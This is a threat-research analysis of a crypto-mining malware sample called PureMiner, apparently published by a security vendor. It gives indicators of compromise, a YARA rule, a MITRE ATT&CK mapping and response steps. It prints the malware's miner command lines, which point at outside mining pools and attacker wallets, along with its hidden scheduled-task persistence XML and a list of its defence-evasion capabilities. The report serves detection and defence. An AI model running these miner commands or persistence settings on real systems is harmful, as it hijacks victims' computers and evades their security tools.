




# PureMiner: Advanced Multi-Coin Crypto Miner with Worm Capabilities

**Author:** Peris.ai Threat Research Team  
**Date:** February 21, 2026  
**Sample Hash:** `43b9cfbfd524d138da3312b47fcee8c4c9ab9343d89fe7b4b730f73c940fbfef`  
**Family:** PureMiner  
**Severity:** HIGH  
**VT Detection:** 21/72 engines (29%)

---

## Executive Summary

On February 21, 2026, we analyzed a sophisticated cryptocurrency mining malware dubbed **PureMiner**, delivered via the Amadey botnet. This native-compiled .NET 8.0 application combines traditional crypto mining with advanced propagation mechanisms (USB spreading, Discord worm), anti-analysis techniques, and system defense evasion. The malware mines both Monero (XMR) and Ravencoin (RVN), employing XMRig-based components masquerading as legitimate Windows system processes.

---

## Technical Analysis

### 1. Sample Overview



**File Information:**
- **Format:** PE32+ executable (64-bit)
- **Size:** 10,573,053 bytes (~10.5 MB)
- **Compiler:** Visual Studio 2022 v17.6 (MSVC 19.36)
- **Framework:** .NET 8.0 Native AOT (win-x64)
- **Original Name:** RuntimeBroker.dll
- **PDB Path:** `C:\Users\adrie\.gemini\antigravity\scratch\PureMinerReplica\PureMiner.Stub\bin\Release\net8.0-windows\win-x64\native\RuntimeBroker.pdb`
- **Compiled:** February 19, 2026 23:35:36 UTC
- **First Submitted:** February 21, 2026 01:44 UTC

### 2. PE Structure & Sections



**Key Sections:**
- `.text` (753 KB) — Executable code
- `.managed` (3.8 MB) — Native AOT-compiled IL assemblies
- `hydrated` (1.5 MB) — Virtual memory region (zero-initialized)
- `.rdata` (2.7 MB) — Read-only data including strings
- `.pdata` (303 KB) — Exception handling metadata
- **Overlay:** 2.9 MB encrypted payload data (high entropy: 7.98)

The overlay section contains encrypted mining pool configurations and additional payloads.

### 3. Capabilities Matrix

From embedded configuration strings, PureMiner includes:

| Capability | Description |
|------------|-------------|
| `amsibypass` | Bypasses Windows Antimalware Scan Interface |
| `uacbypass` | Escalates privileges without UAC prompts |
| `botkiller` | Terminates competing mining malware |
| `defenderkiller` | Disables Windows Defender |
| `antianalysis` | VM/sandbox detection, anti-debugging |
| `persistence` | Scheduled task + registry persistence |
| `usbspread` | Spreads via removable media |
| `discordworm` | Self-propagates through Discord client |
| `cputhrottle` | Limits CPU usage to evade detection (70% max) |
| `stoponbattery` | Pauses mining when on battery power |
| `watchdog` | Monitors and restarts mining processes |

### 4. Import Analysis



**Critical Import Categories:**

**Cryptography (bcrypt.dll, CRYPT32.dll):**
- `BCryptEncrypt/Decrypt`, `BCryptCreateHash` — Encryption/hashing
- `CryptProtectData/UnprotectData` — DPAPI usage
- Certificate manipulation (likely for code signing bypass)

**Privilege Escalation (ADVAPI32.dll):**
- `OpenProcessToken`, `AdjustTokenPrivileges` — Token manipulation
- Service control functions — Service creation/modification
- Registry operations — Persistence mechanisms

**Network (WS2_32.dll, IPHLPAPI.DLL):**
- Socket operations for pool communication
- `GetExtendedTcpTable` — Network connection enumeration
- `GetAdaptersAddresses` — Network adapter discovery

### 5. Mining Configuration

**Monero (XMR) Mining:**
```bash
svchost.exe -o stratum+tcp://xmr-us-west1.nanopool.org:10300 \
  -u 498guVdVdYcG9F3K6a7E2V7wnuMMcqyWc45xYXAnMUtp81KVCc9YgUsP42UGMNZnqVCdPc6BWcS3ZfCiZZceACge1BcezFi \
  -p x --coin monero --cpu-max-threads-hint 70 --no-color --donate-level 0 \
  --http-enabled --http-port 5555 --print-time 60 --retries 5 --retry-pause 5
```

**Ravencoin (RVN) Mining:**
```bash
dllhost.exe -o stratum+tcp://us-xna.2miners.com:6060 \
  -u NQiJrHPPsxSZ7VULLe2rERRw8vWLCkuZS6 \
  -p x --coin ravencoin --cuda --no-color --donate-level 0 \
  --http-enabled --http-port 5556 --print-time 60 --retries 5 --retry-pause 5
```

**Dropped Components:**
- `C:\Users\<USER>\AppData\Local\Temp\mscorsvw_2B9634CB\svchost.exe` (XMRig CPU miner)
- `C:\Users\<USER>\AppData\Local\Temp\mscorsvw_2B9634CB\dllhost.exe` (XMRig GPU miner)
- `WinRing0x64.sys` (Kernel driver for low-level hardware access)

### 6. Persistence Mechanism



**Scheduled Task XML** (embedded in binary):
```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>Windows Health Monitor</Description>
  </RegistrationInfo>
  <Triggers>
    <LogonTrigger>
      <Enabled>true</Enabled>
    </LogonTrigger>
  </Triggers>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Hidden>true</Hidden>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>[Path to miner]</Command>
    </Exec>
  </Actions>
</Task>
```

The task is created via `schtasks.exe /Create /TN "software" /XML [path] /F`.

### 7. Network Indicators

**C2 & Pool Infrastructure:**
- `ip-api.com` — Geolocation check, external IP retrieval
- `xmr-us-west1.nanopool.org:10300` — Monero mining pool
- `us-xna.2miners.com:6060` — Ravencoin mining pool
- HTTP API endpoints: `localhost:5555`, `localhost:5556` (miner control)

**Network Behavior:**
- DNS queries for pool domains and IP lookup services
- Stratum protocol connections (mining)
- HTTP GET to `http://ip-api.com/line/?fields=countryCode,query,lat,lon`

### 8. Anti-Analysis & Evasion

**Sandbox/VM Detection:**
- Checks CPU name, core count
- Long sleep delays (several seconds)
- `IsDebuggerPresent()`, debug environment detection

**Defense Evasion:**
- Masquerades as `RuntimeBroker.dll`, `svchost.exe`, `dllhost.exe`
- AMSI bypass techniques
- Windows Defender termination
- Service binary in suspicious folder (`%TEMP%\mscorsvw_*\`)

### 9. YARA Rule


```yara
rule PureMiner_Feb2026 {
    meta:
        description = "Detects PureMiner cryptocurrency miner"
        author = "Peris.ai Threat Research"
        date = "2026-02-21"
        hash = "43b9cfbfd524d138da3312b47fcee8c4c9ab9343d89fe7b4b730f73c940fbfef"
        
    strings:
        $pdb = "PureMiner.Stub\\bin\\Release\\net8.0-windows" ascii wide
        $cmd1 = "--donate-level 0" ascii wide
        $cmd2 = "--http-enabled" ascii wide
        $cmd3 = "--cpu-max-threads-hint" ascii wide
        $cap1 = "amsibypass" ascii wide nocase
        $cap2 = "botkiller" ascii wide nocase
        $pool1 = "nanopool.org" ascii wide
        $pool2 = "2miners.com" ascii wide
        
    condition:
        uint16(0) == 0x5A4D and filesize > 5MB and
        ($pdb or (3 of ($cmd*)) or (2 of ($cap*) and 1 of ($pool*)))
}
```

---

## Indicators of Compromise (IOCs)

### File Hashes
| Type | Hash |
|------|------|
| SHA256 | `43b9cfbfd524d138da3312b47fcee8c4c9ab9343d89fe7b4b730f73c940fbfef` |
| SHA1 | `01bc3c863028802493d26fa57676a64c0726009a` |
| MD5 | `5059b45c08e23bbfae10f3185c9ab692` |

### Network IOCs
| Type | Indicator |
|------|-----------|
| Domain | `xmr-us-west1.nanopool.org` |
| Domain | `us-xna.2miners.com` |
| Domain | `ip-api.com` |
| IP | `104.238.180.207` (Nanopool server) |
| IP | `208.95.112.1` (ip-api.com) |

### Wallet Addresses
- **Monero:** `498guVdVdYcG9F3K6a7E2V7wnuMMcqyWc45xYXAnMUtp81KVCc9YgUsP42UGMNZnqVCdPc6BWcS3ZfCiZZceACge1BcezFi`
- **Ravencoin:** `NQiJrHPPsxSZ7VULLe2rERRw8vWLCkuZS6`

### File Paths
- `%TEMP%\mscorsvw_*\svchost.exe`
- `%TEMP%\mscorsvw_*\dllhost.exe`
- `%TEMP%\mscorsvw_*\WinRing0x64.sys`
- `%APPDATA%\Microsoft\Windows\Templates\ServiceHub\software.exe`

### Registry Keys
- `HKLM\System\CurrentControlSet\Services\WinRing0_1_2_0\ImagePath`

### Scheduled Tasks
- Task Name: `software`
- Description: `Windows Health Monitor`

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Details |
|--------|-----------|----|---------| | Initial Access | Phishing | T1566 | Delivered via Amadey botnet |
| Execution | Native API | T1106 | Direct WinAPI calls via .NET AOT |
| Persistence | Scheduled Task | T1053.005 | Creates `software` task at logon |
| Privilege Escalation | Access Token Manipulation | T1134 | `AdjustTokenPrivileges` |
| Defense Evasion | Masquerading | T1036.005 | Impersonates svchost, dllhost |
| Defense Evasion | Disable/Modify Tools | T1562.001 | Kills Windows Defender |
| Discovery | System Info Discovery | T1082 | CPU enumeration, geolocation |
| Discovery | Network Service Discovery | T1046 | Network adapter enumeration |
| Lateral Movement | Replication Through Removable Media | T1091 | USB spreading |
| Collection | Data from Local System | T1005 | Steals credentials (implied) |
| Command & Control | Application Layer Protocol | T1071.001 | Stratum mining protocol |
| Impact | Resource Hijacking | T1496 | Cryptocurrency mining |

---

## Recommendations

### Detection
1. Monitor for scheduled tasks with descriptions like "Windows Health Monitor" created via `schtasks.exe`
2. Alert on `svchost.exe` / `dllhost.exe` execution from non-system paths
3. Block network connections to known mining pools (nanopool.org, 2miners.com)
4. Monitor DNS queries for IP lookup services (ip-api.com) from non-browser processes
5. Detect XMRig command-line patterns (--coin, --donate-level 0, --http-enabled)

### Mitigation
1. Deploy endpoint detection with behavioral analysis for crypto mining activity
2. Block outbound connections on Stratum ports (10300, 6060, 3333, etc.)
3. Implement application whitelisting to prevent execution from %TEMP% directories
4. Enable Controlled Folder Access (Windows Defender) to prevent ADS creation
5. Patch systems regularly to prevent Amadey botnet infections

### Response
1. Terminate all processes matching IOCs
2. Delete scheduled task: `schtasks /Delete /TN "software" /F`
3. Remove files from `%TEMP%\mscorsvw_*\` and `%APPDATA%\...\ServiceHub\`
4. Check for registry modifications under `HKLM\System\CurrentControlSet\Services\`
5. Scan for additional Amadey payloads

---

## Conclusion

PureMiner represents an evolution in commodity crypto mining malware, combining traditional mining capabilities with modern evasion techniques and worm-like propagation mechanisms. Built with .NET 8.0 Native AOT compilation, it demonstrates how legitimate development frameworks can be weaponized to create stealthy, performant malware. The multi-coin mining strategy (XMR + RVN) and infrastructure abuse (USB spreading, Discord worm) indicate a financially motivated threat actor with moderate technical sophistication.

Organizations should prioritize behavioral detection over signature-based approaches, as native AOT compilation significantly reduces traditional .NET analysis surface while maintaining full Windows API access.

---

**Attribution:** Analysis performed by Peris.ai Threat Research Team  
**Contact:** For detection rules or additional intelligence, contact Peris.ai Security Operations

---

*Note: All wallet addresses and pool endpoints should be considered active and monitored for threat intelligence purposes.*
